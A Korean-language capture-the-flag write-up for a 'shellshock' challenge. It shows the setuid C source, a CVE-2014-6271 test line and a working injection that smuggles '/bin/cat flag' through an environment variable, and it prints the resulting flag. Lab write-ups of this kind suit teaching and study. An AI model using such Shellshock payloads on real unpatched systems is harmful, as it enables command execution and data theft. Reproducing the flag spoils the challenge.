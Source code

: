 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-16-24-34.png)


# **Write-Up**

소스는 다음과 같다.

```cpp
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

Google에서 shellshock을 검색하면 여러 CVE코드를 확인 할 수 있다.

> [shell shock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

그 중 CVE-2014-6271를 검색해 보았고, 다음과 같은 테스트코드로 취약한지 점검할 수 있다.

```sh
shellshock@pwnable:~$ env x='() { :;}; echo vul' ./bash -c "echo test"
vul
test
```

bash파일이 따로 주어지는 것으로 보아 취약한 버전의 bash이거 'vul'이라는 문자열이 나와서 취약하다는 것을 알았다.

이제 다음과 같은 명령줄로 flag를 획득할 수 있다.

```sh
shellshock@pwnable:~$ env x='() { :; }; /bin/cat flag ' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

# **FLAG**

**only if I knew CVE-2014-6271 ten years ago..!!**